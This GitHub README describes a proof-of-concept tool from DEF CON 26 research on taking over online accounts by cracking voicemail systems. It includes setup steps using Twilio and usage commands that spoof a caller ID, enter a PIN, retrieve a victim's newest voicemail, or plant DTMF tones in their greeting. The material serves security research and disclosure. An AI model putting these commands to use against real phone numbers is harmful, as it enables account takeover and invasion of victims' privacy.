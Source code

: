 # voicemailautomator

voicemailautomator is a tool that serves as a Proof of Concept for the research I presented at DEF CON 26, "Compromising online accounts by cracking voicemail systems".

For details and demos please check: [https://www.martinvigo.com/voicemailcracker](https://www.martinvigo.com/voicemailcracker)

## Basic info

voicemailautomator supports two actions:
* "message" - retrieves and records the newest message in the voicemail system. It returns a URL with the recording.
* "greeting" - changes the greeting message to specific DTMF tones

It uses webhooks to obtain information about the ongoing calls and act accordingly. It starts a Webserver on localhost:8080 and uses localhost.me service to reach the machine running the script.

## Setup
You will need a funded [Twilio account](https://www.twilio.com/), setup [TwiML bins](https://www.twilio.com/blog/2017/11/twiml-bins-a-serverless-and-codeless-way-to-try-twilio.html) and configure [localtunnel.me](localtunnel.me) to accept Webhooks. Check the "Twilio setup" section in the script and add the missing information 

```
account_sid = "" # Obtain from Twilio
auth_token = "" # Obtain from Twilio
twimlPayloadChangeGreeting = "" # <?xml version="1.0" encoding="UTF-8"?><Response><Pause length="10"/><Hangup/></Response>
twimlPayloadChangeGetNewestMessage = "" # <?xml version="1.0" encoding="UTF-8"?><Response><Pause length="10"/><Hangup/></Response>
status_callback_url = "" # Obtain from localtunnel.me
```

## Usage
```
python voicemailcracker.py message --victimnumber 5555555555 --carrier tmobile --callerid 4444444444 --backdoornumber 3333333333 --pin 0000
```
```
python voicemailcracker.py greeting --victimnumber 5555555555 --carrier tmobile --callerid 4444444444 --backdoornumber 3333333333 --pin 0000 --payload 1234
```
## Authors

Martin Vigo - @martin_vigo - [martinvigo.com](https://www.martinvigo.com)
